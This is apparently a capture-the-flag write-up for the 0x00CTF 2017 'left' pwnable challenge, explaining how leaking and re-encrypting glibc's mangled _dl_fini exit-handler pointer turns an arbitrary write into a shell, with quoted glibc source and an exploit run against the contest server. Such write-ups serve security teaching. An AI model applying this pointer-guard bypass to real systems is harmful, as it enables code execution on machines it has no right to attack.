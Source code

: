 #left - 0x00CTF 2017

First at all execute `file` command on the binary (the libc is already provided by the organizers of the CTF)
```bash
$ file guessme
guessme: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=92b1d84ee22b7c92dc80fac971bdc7f6cd0e3672, stripped
```

And [checksec](https://github.com/slimm609/checksec.sh)
```bash
$ ./checksec --file ../pwning/0x00CTF/left/left
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	FORTIFY	Fortified Fortifiable  FILE
Full RELRO      No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No	0		2	../pwning/0x00CTF/left/left
```

This was a 250 pts pwnable challange, the hardest of the competition. Unfortunately i solved this challenge only two hours later the end of the competition. The challange was funny, in a nutshell:
1. The binary prints the address of `printf` function
2. We can leak 8 bytes from any memory location
3. We can write 8 bytes wherever we want
4. The binary calls `exit`.

![image](binary.png)

I tried really a lot of exploits: 
1. overwrite an entry in the got. Nope, full RELRO :P
2. use the `atexit` pointers. Nope, read only
3. use the `__free_hook` pointers. The `exit` function in certain cases calls the `free`, so i tried for few hours to follow this strategy but without success. 

I was becoming crazy, but with my teammate @[ret2libc](https://github.com/ret2libc) we had a look at the libc code and found another way to exploit it. And i'll try to explain now what happened. 

The `exit` function calls `__run_exit_handlers` function, and this is its implementation

```C
/* Call all functions registered with `atexit' and `on_exit',
   in the reverse of the order in which they were registered
   perform stdio cleanup, and terminate program execution with STATUS.  */
void
attribute_hidden
__run_exit_handlers (int status, struct exit_function_list **listp,
		     bool run_list_atexit)
{
  /* First, call the TLS destructors.  */
#ifndef SHARED
  if (&__call_tls_dtors != NULL)
#endif
    __call_tls_dtors ();

  /* We do it this way to handle recursive calls to exit () made by
     the functions registered with `atexit' and `on_exit'. We call
     everyone on the list and use the status value in the last
     exit (). */
  while (*listp != NULL)
    {
      struct exit_function_list *cur = *listp;

      while (cur->idx > 0)
	{
	  const struct exit_function *const f =
	    &cur->fns[--cur->idx];
	  switch (f->flavor)
	    {
	      void (*atfct) (void);
	      void (*onfct) (int status, void *arg);
	      void (*cxafct) (void *arg, int status);

	    case ef_free:
	    case ef_us:
	      break;
	    case ef_on:
	      onfct = f->func.on.fn;
#ifdef PTR_DEMANGLE
	      PTR_DEMANGLE (onfct);
#endif
	      onfct (status, f->func.on.arg);
	      break;
	    case ef_at:
	      atfct = f->func.at;
#ifdef PTR_DEMANGLE
	      PTR_DEMANGLE (atfct);
#endif
	      atfct ();
	      break;
	    case ef_cxa:
	      cxafct = f->func.cxa.fn;
#ifdef PTR_DEMANGLE
	      PTR_DEMANGLE (cxafct);
#endif
	      cxafct (f->func.cxa.arg, status);
	      break;
	    }
	}

      *listp = cur->next;
      if (*listp != NULL)
	/* Don't free the last element in the chain, this is the statically
	   allocate element.  */
	free (cur);
    }

  if (run_list_atexit)
    RUN_HOOK (__libc_atexit, ());

  _exit (status);
}
```

A parameter of the `__run_exit_handlers` is a `struct exit_function_list **listp`. The libc initializes a static struct `initial` 

```C
static struct exit_function_list initial;
struct exit_function_list *__exit_funcs = &initial;
```

then the libc uses these two functions to add an internal `atexit` function to be called when the program ends

```
int
attribute_hidden
__internal_atexit (void (*func) (void *), void *arg, void *d,
		   struct exit_function_list **listp)
{
  struct exit_function *new = __new_exitfn (listp);

  if (new == NULL)
    return -1;

#ifdef PTR_MANGLE
  PTR_MANGLE (func);
#endif
  new->func.cxa.fn = (void (*) (void *, int)) func;
  new->func.cxa.arg = arg;
  new->func.cxa.dso_handle = d;
  atomic_write_barrier ();
  new->flavor = ef_cxa;
  return 0;
}

int
__cxa_atexit (void (*func) (void *), void *arg, void *d)
{
  return __internal_atexit (func, arg, d, &__exit_funcs);
}
libc_hidden_def (__cxa_atexit)
```
The static struct `__exit_funcs` (i.e. `initial`) is extremely important, because if we can write an address of a function to be called here we would win :)
Note that the pointer added to the list is encrypted using a `ror` and `xor` with a random key. The value is then decrypted at run time.
This is the implementation of `PTR_MANGLE` and `PTR_DEMANGLE`

```C
# ifdef __ASSEMBLER__
#  define PTR_MANGLE(reg)	xorl %gs:POINTER_GUARD, reg;		      \
				roll $9, reg
#  define PTR_DEMANGLE(reg)	rorl $9, reg;				      \
				xorl %gs:POINTER_GUARD, reg
# else
#  define PTR_MANGLE(var)	asm ("xorl %%gs:%c2, %0\n"		      \
				     "roll $9, %0"			      \
				     : "=r" (var)			      \
				     : "0" (var),			      \
				       "i" (offsetof (tcbhead_t,	      \
						      pointer_guard)))
#  define PTR_DEMANGLE(var)	asm ("rorl $9, %0\n"			      \
				     "xorl %%gs:%c2, %0"		      \
				     : "=r" (var)			      \
				     : "0" (var),			      \
				       "i" (offsetof (tcbhead_t,	      \
						      pointer_guard)))
# endif
```

Now have a look at the `exit` implementation

```C

void
exit (int status)
{
  __run_exit_handlers (status, &__exit_funcs, true);
}
libc_hidden_def (exit)
```

It uses `&__exit_funcs`, i.e `&initial`! In the file `libc-start.c` you can figure out that it uses the function `__cxa_atexit` to add a function: `_dl_fini`: 

```C
/* Register the destructor of the dynamic linker if there is any.  */
  if (__glibc_likely (rtld_fini != NULL))
    __cxa_atexit ((void (*) (void *)) rtld_fini, NULL, NULL);

#ifndef SHARED
  /* Call the initializer of the libc.  This is only needed here if we
     are compiling for the static library in which case we haven't
     run the constructors in `_dl_start_user'.  */
  __libc_init_first (argc, argv, __environ);

  /* Register the destructor of the program, if any.  */
  if (fini)
    __cxa_atexit ((void (*) (void *)) fini, NULL, NULL);
``` 

What we can do is: 
0. We have the leak of the libc location. We can find the address of the magic gadget, the address of `initial` structure and everithing we need
1. leak the value of the encrypted pointer `_dl_fini_enc`
2. get the secret key (working with 64 bits) with  `rol(_dl_fini_enc, 0x11) ^ _dl_fini_address`.
3. overwrite the pointer `_dl_fini_enc` with the encrypted magic gadget address calculated with `rol((magic_addr) ^ (key), 0x11, 64 )`
4. WIN!

```bash
$ python exploit.py 159.203.116.12 7777
[+] libc address: 139998943588352
[+] key: 13664630298404067136
write address:

[+] writing at: 0x7f540b898c58
[+] write value: 0xf71f40772a557b45L
[+] interactive

id
uid=1000(left) gid=1000(left) groups=1000(left)
cat /home/left/flag.txt
0x00CTF{exPL0it1ng__EXit_FUNkz_LikE_4b0sZ!}
```

Find the binary [here](left) (and the related [libc](libc-2.23.so)), the full exploit [here](exploit.py)! I really enjoyed this challenge! 
